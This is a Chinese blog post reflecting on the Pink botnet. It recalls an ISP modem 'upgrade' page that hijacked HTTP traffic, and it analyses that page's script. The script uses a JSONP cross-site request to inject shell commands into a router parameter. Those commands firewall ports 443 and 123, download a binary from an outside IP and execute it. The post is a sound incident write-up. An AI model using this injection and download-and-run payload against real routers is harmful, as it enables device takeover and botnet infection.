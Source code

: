 ```yaml
---
title: 从最近披露的Pink僵尸网络想到的
description: "昨天看到的文章《一个藏在我们身边的巨型僵尸网络 Pink》让我想起了20年初的一起光猫升级事件，以及我对这次事件的一些想法"
summary: "昨天看到的文章《一个藏在我们身边的巨型僵尸网络 Pink》让我想起了20年初的一起光猫升级事件，以及我对这次事件的一些想法"
tags:
- event
categories:
- event
date: 2021-10-27 13:00:45+0800
lightgallery: true
---
```


昨天上课的时候无聊刷[V2EX](https://www.v2ex.com/t/810633)，读到 360 Netlab 发布的文章[《一个藏在我们身边的巨型僵尸网络 Pink》](https://blog.netlab.360.com/pinkbot/)，披露了2019年底到2020年春节前后的一个名为"**Pink**"的巨型僵尸网络从被发现到攻防博弈过程的一些细节

文中的攻防过程令我很是激动，因为我想起了在2020年初的一件事

## 光猫升级事件

2020年1月初，访问某些http协议(80端口)的网站，会被劫持到一个联通光猫升级页面

![百度贴吧被劫持到升级页面](tieba-web-update.png "百度贴吧被劫持到升级页面")

{{< admonition info >}}
对这个页面的源码在gist上进行了[备份](https://gist.github.com/zu1k/7120d1f71797153eb8c867bb09323eae)，感兴趣的同学可以看一下 [9923](https://gist.github.com/zu1k/7120d1f71797153eb8c867bb09323eae#L9923) 行
{{< /admonition >}}

### 官方后门

通过查看请求和页面源码可以发现这个页面通过向 `192.168.1.1` 的某个接口进行 **jsonp** 请求来执行命令

```javascript
function ajax(){
    //document.getElementById("tip").innerHTML="请重启光猫，并保持页面不关闭，重启后请立即连接光猫WIFI或者网口，等待五分钟后检查网络是否正常";
    $.ajax(
        {
            dataType: 'jsonp',
            data: "",
            jsonp: 'callback',
            url: 'http://192.168.1.1/createNewFolder.json?enlpassword=1234567890abcdefx1234567890abcdefxx1234567890abcdefxxx1eee;iptables -I OUTPUT -p tcp --dport 443 -j DROP;iptables -I OUTPUT -p udp --dport 123 -j DROP;if [ ! -f /tmp/sdsjw ] %26%26 wget http://182.43.249.225:19735/sdsjw -P /tmp;then chmod 777 /tmp/sdsjw;/tmp/sdsjw;fi; /jsonp?',
            success: function (data) {
                console.log(JSON.stringify(data));   // 这里是返回数据
                //document.getElementById("tip").innerHTML="设备正在升级，请等待五分钟后检查网络是否正常";
            },
            error:function(XLMHttpResponse,textStatus,errorThrown){
                if(XLMHttpResponse.status == 200){
                    //document.getElementById("tip").innerHTML="设备正在升级，请等待五分钟后检查网络是否正常";
                }
            },
            complete:function(XLMHttpResponse){
                if(XLMHttpResponse.status == 200){
                    //document.getElementById("tip").innerHTML="设备正在升级，请等待五分钟后检查网络是否正常";
                }
            }
        }
    );
}
```

很明显，这是一个后门，或者是一个漏洞，我更相信这是一个官方后门

根据它的写法我稍微测试了一下，通过jsonp跨域，进行CSRF，的确可以执行任意命令

![测试这个后门](test-backdoor.png "测试后门")

如果被利用了，岂不是？？？又有谁知道到底是不是已经被利用了呢，反正我不知道

{{< admonition info >}}
我很早之前就把光猫设置为桥接模式了，利用自己的路由器拨号，不受该后门影响

局域网也改为另外一个网段了，“192.168.1.1” 根本没有机器
{{< /admonition >}}

再回过头来看升级页面执行的shell命令:

```bash
iptables -I OUTPUT -p tcp --dport 443 -j DROP;
iptables -I OUTPUT -p udp --dport 123 -j DROP;
if [ ! -f /tmp/sdsjw ] && wget http://182.43.249.225:19735/sdsjw -P /tmp; then
    chmod 777 /tmp/sdsjw;
    /tmp/sdsjw;
fi;
/jsonp?
```

当初看这段命令的时候就觉得非常奇怪

为什么上来第一句就要阻断到所有目标443端口的tcp连接？当初的一个想法是防止用户用https协议，这样用户只能使用80端口的http明文协议，可以进行监听或者劫持等操作。这样也不合理啊，HSTS也不是吃干饭的，再说联通如果通过更新屏蔽掉到443端口的所有请求，不怕用户集体反馈和投诉吗？反正当初是没想通这个谜之操作

再看第二句，也莫名其妙，udp 123端口是NTP服务，找你惹你了，犯不着全部屏蔽掉吧。还是想不明白

往后的命令就比较常规了，下载了一个二进制程序，权限修改为`777`，然后直接执行

### 怀疑被攻击

通过对上面升级执行的命令进行分析，我觉得这些操作很不符合常理，将这些已知信息在小群里交流之后，怀疑可能是一起攻击事件，通过劫持用户的http访问，利用光猫的后门(可能是漏洞，虽然我不信)植入恶意程序

遂决定对`sdsjw`程序进行逆向分析，分析的枯燥过程这里省略了，最后结果就是没有发现什么异常的点，到这里对这个事件的分析便不了了之了（当初的二进制程序我找不到了，现在也下载不到了）

{{< admonition info >}}
通过逆向mips版的升级程序，我得出了两个结论：

- JEB的MIPS逆向体验很不错
- 毛子的JEB破解版真好用
{{< /admonition >}}

### 联通工作人员上门升级

2020年5月10号下午，联通工作人员上门进行光猫升级。具体升级方法就是把一块板子通过光猫侧面的口插到主板上，然后通过手机上的app进行固件刷写

在交流的过程中，他透漏光猫大批量被控，有对外攻击流量，接上面要求需要对所有光猫进行升级。我家的光猫在线升级失败，只能到户手动完成。我看了一下他需要上门的名单，看样子我们这个区域关闭了在线管理接口的用户还不少啊哈哈哈

![联通工作人员上门升级](update.jpg "联通工作人员上门升级")

## 我在第一层，人家在第5层

虽然这个事已经过去一年多了，但现在想起来还是有那么一些感触，在运营商与黑客的一轮又一轮攻防博弈中，我有幸记录下其中某个小小的过程。在信息还未对外揭露之前，我无法理解那些莫名其妙的升级指令，甚至怀疑那是一起攻击事件，利用自己微不足道的知识尝试分析却不得结果。当保密期过去之时，我们得以看到整个事件的原貌，不禁感叹，我还是太年轻了啊（好像听到了“长者”的话）

### 关于看待事情

所谓“管中窥豹，略见一斑”，从这件事我学到的第一点便是，要有大局观，要广泛的收集信息，看待某件事时要把时间线放长，这样才能去尽力触及事情的真相

### 关于现代网络攻击

我学到的第二点是关于现代网络攻击。我觉得我对网络攻击的印象还停留在早年的那些简单的漏洞利用，虽然近几年通过网络也吃了不少现代网络攻击事件的瓜，但是并未意识到真正的网络攻击就潜伏在你我身边

通过本次事件我们可以清晰的看出，现代的网络攻击使用的技术更加先进，对隐匿性的要求也更高，如果不是有广泛的监控难以发现。在遇到厂商的狙杀时攻击者能够在第一时间绕过和阻拦，甚至能够在多轮对抗中取得优势将厂商直接阻拦在门外，夺取绝对的控制权，逼迫厂商只能线下进行上门修复

简单列几句文中的原话：

- “至对光猫固件做了多处改动后，还能确保光猫能够正常使用”
- “在与相关厂商的屡次攻防博弈中，PinkBot 的运营者都占据了明显的对抗优势”
- “PinkBot 在整个过程中表现出了极强的针对性和专业性，各方面能力都很均衡，甚至有些可怕”
- “攻击者还使用了ecdsa对配置信息进行了签名”

我觉得不可思议的是这一句：

- “我们一直阶段性的对公网上的 Pink 节点进行持续监测，通过对 2021/10/20日的日志分析，我们仍然可以看到 103024 个 IP 处于日活状态。这表明，当前的 pink 的感染规模仍然在 10w 量级左右，涉及多家设备厂商，按照每个IP对应一个三口之家来计算，受影响人群大概 30w 人左右”

被发现近2年，竟然还没有清除干净，这存活能力得有多强，难以想象

结论：攻击者能力很强，未来遭遇的攻击会更加专业和可怕

### 关于个人安全

关于个人安全，其实我没有发言权，毕竟我也曾踩过别人的水坑

但是我还是要说一句，就是保持差异化，默认的配置只会给攻击者创造便利

再加一句，不要把自己的安全完全托付在别人手中

## 参考链接

- [运营商收回公网 IP 的原因之一](https://www.v2ex.com/t/810633)
- [一个藏在我们身边的巨型僵尸网络 Pink](https://blog.netlab.360.com/pinkbot/)
- [用户端设备ONU被肉鸡攻击实例浅析](https://www.freebuf.com/articles/endpoint/243189.html)
